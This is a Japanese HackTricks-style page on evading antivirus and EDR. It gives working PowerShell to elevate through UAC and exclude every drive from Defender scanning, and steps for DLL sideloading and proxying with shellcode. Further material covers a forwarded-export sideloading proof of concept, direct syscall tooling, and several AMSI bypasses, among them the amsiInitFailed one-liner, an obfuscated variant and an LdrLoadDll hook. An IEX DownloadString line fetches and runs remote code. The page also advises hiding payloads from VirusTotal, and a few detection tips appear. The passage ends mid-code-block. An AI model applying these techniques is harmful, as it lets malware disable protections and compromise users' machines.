




# Antivirus (AV) Bypass

{{#include ../banners/hacktricks-training.md}}

**このページの初版は** [**@m2rc_p**](https://twitter.com/m2rc_p)**によって執筆されました！**

## Defenderを停止する

- [defendnot](https://github.com/es3n1n/defendnot): Windows Defenderの動作を停止するツール。
- [no-defender](https://github.com/es3n1n/no-defender): 別のAVを装ってWindows Defenderの動作を停止するツール。
- [管理者権限がある場合にDefenderを無効化する](basic-powershell-for-pentesters/README.md)

### Defenderを改変する前に、インストーラー風のUAC誘導を行う

ゲームチートを装った公開ローダーは、署名されていないNode.js/Nexeインストーラーとして配布されることが多く、まず**ユーザーに昇格を要求**してからDefenderを無効化します。流れは単純です。

1. `net session`で管理者権限の有無を確認します。このコマンドが成功するのは呼び出し元が管理者権限を持つ場合だけなので、失敗すればローダーは標準ユーザーとして実行されています。
2. 元のコマンドラインを保持したまま、`RunAs`動詞を指定して直ちに自身を再起動し、想定どおりUACの同意プロンプトを表示させます。

```powershell
if (-not (net session 2>$null)) {
    powershell -WindowStyle Hidden -Command "Start-Process cmd.exe -Verb RunAs -WindowStyle Hidden -ArgumentList '/c ""`<path_to_loader`>""'"
    exit
}
```

被害者はすでに「cracked」ソフトウェアをインストールしていると信じているため、通常はプロンプトを承認し、マルウェアに Defender のポリシーを変更するために必要な権限を与えてしまいます。<sup>[[26]](#references)</sup>

### すべてのドライブ文字に対する `MpPreference` の一律除外

昇格後、GachiLoader 系のチェーンはサービスを完全に無効化するのではなく、Defender の死角を最大限に広げます。まずローダーは GUI のウォッチドッグ（`taskkill /F /IM SecHealthUI.exe`）を終了させ、続いて**極めて広範な除外設定**を追加して、すべてのユーザープロファイル、システムディレクトリ、リムーバブルディスクをスキャン対象外にします。

```powershell
$targets = @('C:\Users\', 'C:\ProgramData\', 'C:\Windows\')
Get-PSDrive -PSProvider FileSystem | ForEach-Object { $targets += $_.Root }
$targets | Sort-Object -Unique | ForEach-Object { Add-MpPreference -ExclusionPath $_ }
Add-MpPreference -ExclusionExtension '.sys'
```

主な観察事項：

- ループはマウントされているすべてのファイルシステム（D:\、E:\、USBメモリなど）を走査するため、今後ディスク上のどこかに置かれるペイロードはすべて無視されます。
- `.sys` 拡張子の除外は将来を見据えたものです。攻撃者は、後からDefenderに再度触れることなく、署名されていないドライバーを読み込む選択肢を残しています。
- すべての変更は `HKLM\SOFTWARE\Microsoft\Windows Defender\Exclusions` 配下に適用されるため、後続の段階で、UACを再度トリガーせずに除外が維持されていることを確認したり、範囲を拡大したりできます。

Defenderのサービスは停止されないため、単純なヘルスチェックでは「アンチウイルスは有効」と報告され続けますが、実際にはリアルタイム検査がそれらのパスをチェックすることはありません。<sup>[[26]](#references)</sup>

## **AV Evasion Methodology**

現在、AVはファイルが悪意のあるものかどうかを判定するために、さまざまな手法を使っています。静的検知、動的解析、そしてより高度なEDRでは振る舞い分析が使われます。

### **Static detection**

静的検知は、バイナリやスクリプト内の既知の悪意ある文字列やバイト列を検出するほか、ファイル自体から情報（ファイルの説明、会社名、デジタル署名、アイコン、チェックサムなど）を抽出して行われます。そのため、既知の公開ツールを使うと、解析されて悪意あるものとして検出されている可能性が高く、より簡単に見つかることがあります。この種の検知を回避する方法はいくつかあります。

- **Encryption**

バイナリを暗号化すれば、AVがプログラムを検出する手段はなくなりますが、プログラムを復号してメモリ内で実行するための何らかのローダーが必要になります。

- **Obfuscation**

場合によっては、バイナリやスクリプト内の文字列をいくつか変更するだけでAVをすり抜けられますが、難読化しようとする内容によっては、時間のかかる作業になることがあります。

- **Custom tooling**

独自のツールを開発すれば、既知の悪意あるシグネチャが存在しなくなりますが、多くの時間と労力がかかります。

> [!TIP]
> Windows Defenderの静的検知を調べるには、[ThreatCheck](https://github.com/rasta-mouse/ThreatCheck)がおすすめです。ファイルを複数のセグメントに分割し、それぞれを個別にDefenderにスキャンさせます。これにより、バイナリ内のどの文字列やバイトが検出対象になったかを正確に把握できます。

実践的なAV Evasionについては、この[YouTube playlist](https://www.youtube.com/playlist?list=PLj05gPj8rk_pkb12mDe4PgYZ5qPxhGKGf)をぜひご覧ください。

### **Dynamic analysis**

動的解析とは、AVがバイナリをサンドボックス内で実行し、悪意ある活動（ブラウザーのパスワードを復号して読み取ろうとする、LSASSのminidumpを取得するなど）を監視することです。この対策は少し扱いが難しい場合がありますが、サンドボックスを回避するためにできることをいくつか紹介します。

- **実行前にスリープする** 実装方法によっては、AVの動的解析を回避する優れた方法になります。AVがファイルをスキャンできる時間は、ユーザーの作業を妨げないよう非常に短いため、長時間スリープさせるとバイナリの解析を妨げられます。ただし、多くのAVサンドボックスは、実装方法によってはスリープをスキップできるという問題があります。
- **マシンのリソースを確認する** 通常、サンドボックスは利用できるリソースが非常に少なく（例：RAMが2GB未満）、そうでなければユーザーのマシンの動作が遅くなる可能性があります。さらに、CPUの温度やファンの回転速度を確認するなど、工夫の余地もあります。サンドボックスですべてが実装されているとは限りません。
- **マシン固有のチェック** 「contoso.local」ドメインに参加しているユーザーのワークステーションを標的にしたい場合、コンピューターのドメインが指定したものと一致するか確認できます。一致しなければ、プログラムを終了させます。

Microsoft Defenderのサンドボックスのコンピューター名はHAL9THであることが分かっています。そのため、実行前にマルウェア内でコンピューター名を確認できます。名前がHAL9THと一致する場合はDefenderのサンドボックス内にいるということなので、プログラムを終了させることができます。

<figure><figcaption><p>出典: <a href="https://youtu.be/StSLxFbVz0M?t=1439">https://youtu.be/StSLxFbVz0M?t=1439</a></p></figcaption></figure>

サンドボックスへの対策として、[@mgeeky](https://twitter.com/mariuszbit)によるほかの優れたヒントをいくつか紹介します。

<figure><figcaption><p><a href="https://discord.com/servers/red-team-vx-community-1012733841229746240">Red Team VX Discord</a> #malware-dev channel</p></figcaption></figure>

この投稿でも前述したように、**公開ツール**はいずれ**検出される**ため、次のことを自問すべきです。

たとえば、LSASSをダンプしたい場合、**本当にmimikatzを使う必要があるでしょうか**？ あるいは、知名度が低く、LSASSもダンプできる別のプロジェクトを使えるでしょうか。

おそらく、後者が正解です。mimikatzを例にとると、AVやEDRに最も多く検出されるマルウェアのひとつ、あるいは最も検出されるものと言ってよいでしょう。プロジェクト自体は非常に優れていますが、AVを回避するために使うのは悪夢のように大変です。実現したいことに対する代替手段を探しましょう。

> [!TIP]
> 回避のためにペイロードを変更する場合は、Defenderの**サンプルの自動送信をオフにする**ようにしてください。また、長期的に検出回避を目指すなら、**絶対にVIRUSTOTALにアップロードしないでください**。特定のAVにペイロードが検出されるか確認したい場合は、VMにそのAVをインストールし、サンプルの自動送信をオフにして、結果に納得できるまでそこでテストしてください。

## EXEs vs DLLs

可能であれば、検出回避には常に**DLLの使用を優先してください**。私の経験では、DLLファイルは通常、**検出や解析を受ける可能性がかなり低い**ため、ペイロードをDLLとして実行する方法があるなら、場合によっては検出を避けるためのとても簡単な手段になります。

この画像から分かるように、HavocのDLL Payloadはantiscan.meで4/26の検出率ですが、EXEペイロードは7/26です。

<figure><figcaption><p>antiscan.meでの通常のHavoc EXEペイロードと通常のHavoc DLLの比較</p></figcaption></figure>

ここからは、DLLファイルを使ってよりステルス性を高めるためのテクニックをいくつか紹介します。

## DLL Sideloading & Proxying

**DLL Sideloading**は、ローダーが使用するDLL検索順序を利用し、被害アプリケーションと悪意あるペイロードを並べて配置します。

[ Siofra](https://github.com/Cybereason/siofra)と以下のpowershellスクリプトを使って、DLL Sideloadingの影響を受けやすいプログラムを調べられます。

```bash
Get-ChildItem -Path "C:\Program Files\" -Filter *.exe -Recurse -File -Name| ForEach-Object {
    $binarytoCheck = "C:\Program Files\" + $_
    C:\Users\user\Desktop\Siofra64.exe --mode file-scan --enum-dependency --dll-hijack -f $binarytoCheck
}
```

このコマンドは、"C:\Program Files\\" 内で DLL hijacking の影響を受けるプログラムの一覧と、それらが読み込もうとする DLL ファイルを出力します。

**DLL Hijackable/Sideloadable なプログラムを自分で調査することを強くおすすめします**。この手法は適切に行えばかなりステルス性が高いですが、公開されている DLL Sideloadable プログラムを使うと、簡単に検知される可能性があります。

プログラムが読み込もうとする名前の悪意ある DLL を配置するだけでは、ペイロードは読み込まれません。プログラムはその DLL 内に特定の関数があることを想定しているためです。この問題を解決するために、**DLL Proxying/Forwarding** と呼ばれる別の手法を使います。

**DLL Proxying** は、プログラムがプロキシ（悪意ある）DLL に対して行う呼び出しを元の DLL に転送します。これにより、プログラムの機能を維持しつつ、ペイロードを実行できます。

ここでは、[@flangvik](https://twitter.com/Flangvik/) の [SharpDLLProxy](https://github.com/Flangvik/SharpDllProxy) プロジェクトを使用します。

以下が実施した手順です:

```
1. Find an application vulnerable to DLL Sideloading (siofra or using Process Hacker)
2. Generate some shellcode (I used Havoc C2)
3. (Optional) Encode your shellcode using Shikata Ga Nai (https://github.com/EgeBalci/sgn)
4. Use SharpDLLProxy to create the proxy dll (.\SharpDllProxy.exe --dll .\mimeTools.dll --payload .\demon.bin)
```

最後のコマンドで、DLLのソースコードテンプレートと、名前を変更した元のDLLの2つのファイルが生成されます。

<figure><figcaption></figcaption></figure>

```
5. Create a new visual studio project (C++ DLL), paste the code generated by SharpDLLProxy (Under output_dllname/dllname_pragma.c) and compile. Now you should have a proxy dll which will load the shellcode you've specified and also forward any calls to the original DLL.
```

これらが結果です:

<figure><figcaption></figcaption></figure>

私たちのshellcode（[SGN](https://github.com/EgeBalci/sgn)でエンコード）とproxy DLLは、どちらも[antiscan.me](https://antiscan.me)でDetection rateが0/26でした！成功と言ってよいでしょう。

<figure><figcaption></figcaption></figure>

> [!TIP]
> DLL Sideloadingについて解説している[S3cur3Th1sSh1tのtwitch VOD](https://www.twitch.tv/videos/1644171543)と、内容をさらに詳しく学べる[ippsecの動画](https://www.youtube.com/watch?v=3eROsG_WNpE)を**ぜひ視聴することをおすすめします**。

### 転送エクスポートの悪用 (ForwardSideLoading)

Windows PEモジュールは、実際には「forwarder」である関数をエクスポートできます。これはコードを指す代わりに、エクスポートエントリに`TargetDll.TargetFunc`形式のASCII文字列が格納されるものです。呼び出し元がエクスポートを解決すると、Windowsローダーは次の処理を行います:

- `TargetDll`がまだロードされていなければロードする
- そのモジュールから`TargetFunc`を解決する

理解しておくべき主な挙動:
- `TargetDll`がKnownDLLの場合、保護されたKnownDLLs名前空間から提供されます（例: ntdll、kernelbase、ole32）。<sup>[[15]](#references)</sup>
- `TargetDll`がKnownDLLでない場合、通常のDLL検索順序が使われます。この検索順序には、forward解決を行うモジュールのディレクトリも含まれます。

これにより、間接的なsideloadingの手法が可能になります。つまり、KnownDLLではないモジュール名に転送される関数をエクスポートする署名済みDLLを見つけ、その署名済みDLLと同じ場所に、転送先モジュールとまったく同じ名前の攻撃者が制御するDLLを配置します。転送されたエクスポートが呼び出されると、ローダーはforwardを解決し、同じディレクトリからあなたのDLLをロードして、DllMainを実行します。<sup>[[13]](#references)</sup>

Windows 11で確認された例:

```
keyiso.dll KeyIsoSetAuditingInterface -> NCRYPTPROV.SetAuditingInterface
```

`NCRYPTPROV.dll` は KnownDLL ではないため、通常の検索順序で解決されます。

PoC（コピー＆ペースト）:
1) 署名済みのシステム DLL を書き込み可能なフォルダーにコピーする
```
copy C:\Windows\System32\keyiso.dll C:\test\
```
2) 同じフォルダーに悪意のある `NCRYPTPROV.dll` を配置します。コード実行には最小限の DllMain で十分です。DllMain を実行させるために、転送関数を実装する必要はありません。
```c
// x64: x86_64-w64-mingw32-gcc -shared -o NCRYPTPROV.dll ncryptprov.c
#include <windows.h>
BOOL WINAPI DllMain(HINSTANCE hinst, DWORD reason, LPVOID reserved){
    if (reason == DLL_PROCESS_ATTACH){
        HANDLE h = CreateFileA("C\\\\test\\\\DLLMain_64_DLL_PROCESS_ATTACH.txt", GENERIC_WRITE, 0, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
        if(h!=INVALID_HANDLE_VALUE){ const char *m = "hello"; DWORD w; WriteFile(h,m,5,&w,NULL); CloseHandle(h);}        
    }
    return TRUE;
}
```
3) 署名済みのLOLBinで転送をトリガーする:
```
rundll32.exe C:\test\keyiso.dll, KeyIsoSetAuditingInterface
```

Observed behavior:
- rundll32 (signed) が side-by-side の `keyiso.dll` (signed) を読み込む
- `KeyIsoSetAuditingInterface` の解決中に、ローダーは転送先の `NCRYPTPROV.SetAuditingInterface` をたどる
- その後、ローダーは `C:\test` から `NCRYPTPROV.dll` を読み込み、その `DllMain` を実行する
- `SetAuditingInterface` が実装されていない場合でも、「missing API」エラーが発生するのは `DllMain` の実行後

Hunting tips:
- ターゲットモジュールが KnownDLL ではない forwarded export に注目します。KnownDLLs は `HKLM\SYSTEM\CurrentControlSet\Control\Session Manager\KnownDLLs` にあります。
- 次のようなツールを使って forwarded export を列挙できます:
```
dumpbin /exports C:\Windows\System32\keyiso.dll
# forwarders appear with a forwarder string e.g., NCRYPTPROV.SetAuditingInterface
```
- 候補を探すには、Windows 11 forwarder inventory を参照してください: https://hexacorn.com/d/apis_fwd.txt<sup>[[14]](#references)</sup>

検知・防御のアイデア:
- LOLBins（例: rundll32.exe）が非システムパスから署名済みDLLを読み込み、その後、同じディレクトリから同じベース名の非KnownDLLsを読み込む動作を監視する
- 次のようなプロセス／モジュールの連鎖を検知する: `rundll32.exe` → 非システムの `keyiso.dll` → ユーザーが書き込み可能なパスにある `NCRYPTPROV.dll`
- コード整合性ポリシー（WDAC/AppLocker）を適用し、アプリケーションディレクトリでの書き込み＋実行を拒否する

## [**Freeze**](https://github.com/optiv/Freeze)

`Freezeは、サスペンド状態のプロセス、直接syscall、代替実行方法を使用してEDRを回避するためのpayload toolkitです`

Freezeを使用すると、shellcodeをステルス性の高い方法で読み込み、実行できます。

```
Git clone the Freeze repo and build it (git clone https://github.com/optiv/Freeze.git && cd Freeze && go build Freeze.go)
1. Generate some shellcode, in this case I used Havoc C2.
2. ./Freeze -I demon.bin -encrypt -O demon.exe
3. Profit, no alerts from defender
```

<figure><figcaption></figcaption></figure>

> [!TIP]
> Evasionはいたちごっこです。今日有効な手法も明日には検知される可能性があるため、1つのツールだけに頼らず、可能であれば複数のEvasion techniqueを組み合わせてください。

## Direct/Indirect SyscallsとSSN解決 (SysWhispers4)

EDRは、`ntdll.dll`のsyscall stubに**user-mode inline hook**を仕掛けることがよくあります。これらのhookを回避するには、正しい**SSN**（System Service Number）を読み込み、hookされたexportのentrypointを実行せずにkernel modeへ移行する**direct**または**indirect** syscall stubを生成できます。<sup>[[32]](#references)</sup>

**呼び出しオプション:**
- **Direct (embedded)**: 生成されたstubに`syscall`/`sysenter`/`SVC #0`命令を出力します（`ntdll`のexportにはヒットしません）。
- **Indirect**: `ntdll`内の既存の`syscall` gadgetにジャンプし、kernelへの移行が`ntdll`から発生したように見せます（heuristic evasionに有用）。**randomized indirect**では、呼び出しごとにpoolからgadgetを選びます。
- **Egg-hunt**: 静的な`0F 05` opcode列をディスク上に埋め込まず、runtimeにsyscall列を解決します。

**hook耐性のあるSSN解決方法:**
- **FreshyCalls (VA sort)**: stubのバイト列を読む代わりに、syscall stubをvirtual address順に並べてSSNを推定します。
- **SyscallsFromDisk**: クリーンな`\KnownDlls\ntdll.dll`をmapし、その`.text`からSSNを読み取ってからunmapします（メモリ内のすべてのhookを回避します）。
- **RecycledGate**: VA順によるSSN推定と、stubがクリーンな場合のopcode検証を組み合わせます。hookされている場合はVAによる推定にフォールバックします。
- **HW Breakpoint**: `syscall`命令にDR0を設定し、VEHを使ってruntimeに`EAX`からSSNを取得します。hookされたバイト列の解析は不要です。

SysWhispers4の使用例:
```bash
# Indirect syscalls + hook-resistant resolution
python syswhispers.py --preset injection --method indirect --resolve recycled

# Resolve SSNs from a clean on-disk ntdll
python syswhispers.py --preset injection --method indirect --resolve from_disk --unhook-ntdll

# Hardware breakpoint SSN extraction
python syswhispers.py --functions NtAllocateVirtualMemory,NtCreateThreadEx --resolve hw_breakpoint
```

## AMSI (Anti-Malware Scan Interface)

AMSIは「[fileless malware](https://en.wikipedia.org/wiki/Fileless_malware)」を防ぐために作られました。当初、AVがスキャンできるのは**ディスク上のファイル**だけだったため、ペイロードを何らかの方法で**メモリ内で直接**実行できれば、AVには十分な可視性がなく、それを阻止できませんでした。

AMSI機能は、Windowsの以下のコンポーネントに統合されています。

- User Account Control、またはUAC（EXE、COM、MSI、ActiveXのインストール時の昇格）
- PowerShell（スクリプト、対話型の使用、動的なコード評価）
- Windows Script Host（wscript.exeおよびcscript.exe）
- JavaScriptおよびVBScript
- Office VBAマクロ

これにより、スクリプトの内容を暗号化も難読化もされていない形式で公開し、ウイルス対策ソリューションがスクリプトの動作を検査できます。

`IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1')` を実行すると、Windows Defenderで次のアラートが表示されます。

<figure><figcaption></figcaption></figure>

`amsi:` と、そのスクリプトを実行した実行ファイルへのパスが先頭に付加されていることに注目してください。この場合はpowershell.exeです。

ディスクにはファイルを一切書き込みませんでしたが、AMSIによりメモリ内で検知されました。

さらに、**.NET 4.8**以降では、C#コードもAMSIを通じて実行されます。これは、メモリ内で実行するための`Assembly.Load(byte[])`にも影響します。そのため、AMSIを回避してメモリ内で実行する場合は、より古いバージョンの.NET（4.7.2以下など）の使用が推奨されます。

AMSIを回避する方法はいくつかあります。

- **Obfuscation**

AMSIは主に静的な検知を行うため、読み込もうとするスクリプトを変更することは、検知を回避する有効な方法になり得ます。

ただし、AMSIには、複数のレイヤーがある場合でもスクリプトの難読化を解除する機能があります。そのため、難読化の方法によっては適切な選択肢ではないこともあり、回避はそれほど単純ではありません。一方で、変数名をいくつか変更するだけでうまくいくこともあります。どの程度フラグが立てられているかによります。

- **AMSI Bypass**

AMSIはDLLをpowershell（およびcscript.exe、wscript.exeなど）のプロセスに読み込むことで実装されているため、非特権ユーザーとして実行していても簡単に改変できます。AMSIの実装上のこの欠陥により、研究者たちはAMSIスキャンを回避する方法を複数発見しています。

**Forcing an Error**

AMSIの初期化を強制的に失敗させる（amsiInitFailed）と、現在のプロセスではスキャンが開始されなくなります。これはもともと[Matt Graeber](https://twitter.com/mattifestation)によって公開され、Microsoftは広く利用されるのを防ぐためのシグネチャを開発しました。

```bash
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

PowerShellコードを1行実行するだけで、現在のPowerShellプロセスでAMSIを使用不能にできました。もちろん、この行自体はAMSIによって検出されるため、この手法を使うには何らかの変更が必要です。

以下は、この[Github Gist](https://gist.github.com/r00t-3xp10it/a0c6a368769eec3d3255d4814802b5db)から引用した、改変済みのAMSI bypassです。

```bash
Try{#Ams1 bypass technic nº 2
      $Xdatabase = 'Utils';$Homedrive = 'si'
      $ComponentDeviceId = "N`onP" + "ubl`ic" -join ''
      $DiskMgr = 'Syst+@.M£n£g' + 'e@+nt.Auto@' + '£tion.A' -join ''
      $fdx = '@ms' + '£In£' + 'tF@£' + 'l+d' -Join '';Start-Sleep -Milliseconds 300
      $CleanUp = $DiskMgr.Replace('@','m').Replace('£','a').Replace('+','e')
      $Rawdata = $fdx.Replace('@','a').Replace('£','i').Replace('+','e')
      $SDcleanup = [Ref].Assembly.GetType(('{0}m{1}{2}' -f $CleanUp,$Homedrive,$Xdatabase))
      $Spotfix = $SDcleanup.GetField($Rawdata,"$ComponentDeviceId,Static")
      $Spotfix.SetValue($null,$true)
   }Catch{Throw $_}
```

この投稿が公開されると、おそらく検知されることを念頭に置いてください。そのため、検知されない状態を維持する計画なら、コードを公開しないでください。

**Memory Patching**

この手法は当初[@RastaMouse](https://twitter.com/_RastaMouse/)によって発見されました。ユーザーが入力した内容をスキャンする`AmsiScanBuffer`関数のアドレスをamsi.dll内で見つけ、E_INVALIDARGのコードを返す命令で上書きします。これにより、実際のスキャン結果は0となり、クリーンな結果として扱われます。

> [!TIP]
> 詳細な説明については、[https://rastamouse.me/memory-patching-amsi-bypass/](https://rastamouse.me/memory-patching-amsi-bypass/)をお読みください。

powershellでAMSIをバイパスするために使われる手法は、ほかにも数多くあります。詳しくは[**このページ**](basic-powershell-for-pentesters/index.html#amsi-bypass)と[**このrepo**](https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell)をご覧ください。

### amsi.dllの読み込みを防いでAMSIをブロックする（LdrLoadDll hook）

AMSIは、現在のプロセスに`amsi.dll`が読み込まれた後にのみ初期化されます。堅牢で言語に依存しないバイパス方法は、`ntdll!LdrLoadDll`にユーザーモードhookを設定し、要求されたモジュールが`amsi.dll`の場合にエラーを返すことです。その結果、AMSIは読み込まれず、そのプロセスではスキャンが行われません。<sup>[[23]](#references)</sup>

実装の概要（x64 C/C++ pseudocode）：
```c
#include <windows.h>
#include <winternl.h>

typedef NTSTATUS (NTAPI *pLdrLoadDll)(PWSTR, ULONG, PUNICODE_STRING, PHANDLE);
static pLdrLoadDll realLdrLoadDll;

NTSTATUS NTAPI Hook_LdrLoadDll(PWSTR path, ULONG flags, PUNICODE_STRING module, PHANDLE handle){
    if (module && module->Buffer){
        UNICODE_STRING amsi; RtlInitUnicodeString(&amsi, L"amsi.dll");
        if (RtlEqualUnicodeString(module, &amsi, TRUE)){
            // Pretend the DLL cannot be found → AMSI never initialises in this process
            return STATUS_DLL_NOT_FOUND; // 0xC0000135
        }
    }
    return realLdrLoadDll(path, flags, module, handle);
}

void InstallHook(){
    HMODULE ntdll = GetModuleHandleW(L"ntdll.dll");
    realLdrLoadDll = (pLdrLoadDll)GetProcAddress(ntdll, "LdrLoadDll");
    // Apply inline trampoline or IAT patching to redirect to Hook_LdrLoadDll
    // e.g., Microsoft Detours / MinHook / custom 14‑byte jmp thunk
}
```
注記
- PowerShell、WScript/CScript、カスタムローダーなど、AMSIを読み込むものならどれでも動作します。
- スクリプトを標準入力経由で渡す方法（`PowerShell.exe -NoProfile -NonInteractive -Command -`）と組み合わせると、コマンドラインに長い痕跡が残るのを避けられます。
- LOLBins（例: `regsvr32` が `DllRegisterServer` を呼び出す）経由で実行されるローダーでの使用例があります。

**[https://github.com/Flangvik/AMSI.fail](https://github.com/Flangvik/AMSI.fail)** ツールも、AMSIをバイパスするスクリプトを生成します。
**[https://amsibypass.com/](https://amsibypass.com/)** ツールも、ランダム化されたユーザー定義関数、変数、文字式を使ってシグネチャを回避し、PowerShellのキーワードの大文字・小文字をランダムに変更してシグネチャ検出を避けるスクリプトを生成します。

**検出されたシグネチャを削除する**

**[https://github.com/cobbr/PSAmsi](https://github.com/cobbr/PSAmsi)** や **[https://github.com/RythmStick/AMSITrigger](https://github.com/RythmStick/AMSITrigger)** のようなツールを使うと、現在のプロセスのメモリから検出されたAMSIシグネチャを削除できます。このツールは、現在のプロセスのメモリをスキャンしてAMSIシグネチャを探し、NOP命令で上書きすることで、メモリから実質的に削除します。

**AMSIを使用するAV/EDR製品**

AMSIを使用するAV/EDR製品の一覧は、**[https://github.com/subat0mik/whoamsi](https://github.com/subat0mik/whoamsi)** で確認できます。

**PowerShell version 2を使用する**
PowerShell version 2を使うと、AMSIは読み込まれないため、AMSIによるスキャンを受けずにスクリプトを実行できます。次のように実行できます。

```bash
powershell.exe -version 2
```

## PS Logging

PowerShell loggingは、システム上で実行されたすべてのPowerShellコマンドを記録できる機能です。監査やトラブルシューティングに役立ちますが、**検出を回避したい攻撃者にとっては問題となる可能性があります**。

PowerShell loggingを回避するには、次の手法を使用できます。

- **PowerShell TranscriptionとModule Loggingを無効化する**: この目的には、[https://github.com/leechristensen/Random/blob/master/CSharp/DisablePSLogging.cs](https://github.com/leechristensen/Random/blob/master/CSharp/DisablePSLogging.cs)などのツールを使用できます。
- **PowerShell version 2を使用する**: PowerShell version 2を使用するとAMSIが読み込まれないため、AMSIによるスキャンを受けずにスクリプトを実行できます。次のように実行できます: `powershell.exe -version 2`
- **unmanaged PowerShell sessionを使用する**: [UnmanagedPowerShell](https://github.com/leechristensen/UnmanagedPowerShell)を使うと、`powershell.exe`を起動せずにPowerShellをホストできます（Cobalt Strikeの`powerpick`で使われている手法）。これにより、`powershell.exe`プロセスに特化した制御は回避できますが、AMSI、Script Block Logging、その他すべてのPowerShell防御が自動的に無効になるわけではありません。保護の範囲は、runtimeとホストの実装によって異なります。


## Obfuscation

> [!TIP]
> 複数のobfuscation手法ではデータを暗号化するため、バイナリのエントロピーが増加し、AVやEDRによる検出が容易になります。この点に注意し、暗号化は機密性の高いコードや隠す必要のあるコードの特定部分にのみ適用することを検討してください。

### ConfuserExで保護された.NETバイナリのDeobfuscation

ConfuserEx 2（または商用fork）を使用するマルウェアを解析する際、decompilerやsandboxを妨げる複数の保護レイヤーに遭遇することがよくあります。以下のワークフローを使うと、**元に近いILを確実に復元**でき、その後、dnSpyやILSpyなどのツールでC#にdecompileできます。<sup>[[10]](#references)</sup>

1.  Anti-tamperingの除去 – ConfuserExはすべての*method body*を暗号化し、*module*のstatic constructor（`<Module>.cctor`）内で復号します。また、PE checksumにもパッチを適用するため、変更を加えるとバイナリがクラッシュします。**AntiTamperKiller**を使って暗号化されたmetadata tableを特定し、XOR keyを復元して、クリーンなassemblyを書き出します:
   ```bash
   # https://github.com/wwh1004/AntiTamperKiller
   python AntiTamperKiller.py Confused.exe Confused.clean.exe
   ```
   Outputには、独自のunpackerを作成する際に役立つ6つのanti-tamperパラメータ（`key0-key3`、`nameHash`、`internKey`）が含まれています。

2.  シンボル／control-flowの復元 – *clean* fileを**de4dot-cex**（ConfuserExに対応したde4dotのfork）に渡します。
   ```bash
